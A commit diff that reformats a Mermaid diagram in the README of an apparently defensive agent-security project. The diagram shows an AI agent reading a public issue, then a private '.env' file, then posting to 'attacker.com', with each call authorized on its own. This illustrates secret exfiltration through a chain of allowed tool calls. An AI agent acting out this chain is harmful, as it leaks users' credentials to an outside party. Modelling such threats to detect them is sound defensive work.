

The first of 5 diagrams in README.md (Debddj/Cerberus), drawn with Mermaid before and after one commit. The commit also changed other lines of this file and 18 other files, not shown here.

Commit message:
docs(readme): fix mermaid rendering, add live Render insight, and untrack .agents folder

````diff
--- a/README.md
+++ b/README.md
@@ -55,25 +56,14 @@
 ```mermaid
 flowchart LR
     subgraph ToxicSequence["The Hidden Threat: Sequence-Level Intent Drift"]
-        C1["Call #1: read_public_issue(#42)
-        ────────────────────────
-        Authorized: Agent routinely
-        inspects bug reports."]
-        
-        C2["Call #2: read_private_repo('.env')
-        ────────────────────────
-        Authorized: Agent has legitimate
-        workspace file access."]
-        
-        C3["Call #3: http_post('attacker.com')
-        ────────────────────────
-        Authorized: Agent routinely
-        posts outgoing webhooks."]
-        
-        C1 -->|Legitimate| C2
-        C2 -->|Legitimate| C3
+        C1["Call #1: read_public_issue #42<br/>Authorized: Agent routinely inspects bug reports."]
+        C2["Call #2: read_private_repo .env<br/>Authorized: Agent has workspace file access."]
+        C3["Call #3: http_post attacker.com<br/>Authorized: Agent routinely posts outgoing webhooks."]
+
+        C1 -->|"Legitimate"| C2
+        C2 -->|"Legitimate"| C3
     end
-    
-    Verdict["⚠️ The Attack Exists Exclusively in the Transition Chain!"]
+
+    Verdict["Warning: The Attack Exists Exclusively in the Transition Chain"]
     ToxicSequence -.-> Verdict
 ```
````
